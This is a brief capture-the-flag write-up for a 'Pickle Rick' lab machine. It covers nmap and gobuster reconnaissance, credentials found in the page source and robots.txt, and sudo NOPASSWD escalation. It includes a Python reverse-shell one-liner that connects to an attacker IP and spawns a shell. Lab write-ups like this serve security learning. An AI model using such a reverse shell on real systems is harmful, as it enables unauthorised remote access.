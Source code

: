 ## Pickle Rick
---

### Reconnaissance

#### Nmap

```
$ nmap -sV -sC 10.10.187.238 -oA recon/recon-picklerick
Starting Nmap 7.92 ( https://nmap.org ) at 2021-12-19 01:48 EST
Nmap scan report for 10.10.187.238
Host is up (0.10s latency).
Not shown: 998 closed tcp ports (conn-refused)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.6 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 e1:dc:e1:6e:ed:3f:b3:83:22:3f:8e:c4:c5:11:a8:c3 (RSA)
|   256 2f:25:82:8b:82:9e:2a:22:c6:4e:ed:c0:df:21:7f:98 (ECDSA)
|_  256 11:b8:6b:3d:9b:df:90:0a:f9:f8:8b:8e:c7:ee:23:ed (ED25519)
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Rick is sup4r cool
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 25.43 seconds

```

#### Gobuster

```
$ gobuster dir -u http://10.10.187.238 -w /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -o gobuster/gob-picklerick
===============================================================
Gobuster v3.1.0
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.187.238
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.1.0
[+] Timeout:                 10s
===============================================================
2021/12/19 01:55:04 Starting gobuster in directory enumeration mode
===============================================================
/assets               (Status: 301) [Size: 315] [--> http://10.10.187.238/assets/]
/server-status        (Status: 403) [Size: 301]                                   
                                                                                  
===============================================================
2021/12/19 02:33:18 Finished
===============================================================
```

This actually ended up being login.php

#### Logging into the page

Username found in the page source

Password found in the robots.txt


#### Shell Script that worked on the website

```
python3 -c 'import os,pty,socket;s=socket.socket();s.connect(("10.6.82.216",9001));[os.dup2(s.fileno(),f)for f in(0,1,2)];pty.spawn("sh")'
```


From there it was just looking around, the first flag was in the /var/www/html folder, second flag was in the /home/rick folder and the third was in the /root/ folder since the web user account has sudo NOPASSWD privileges


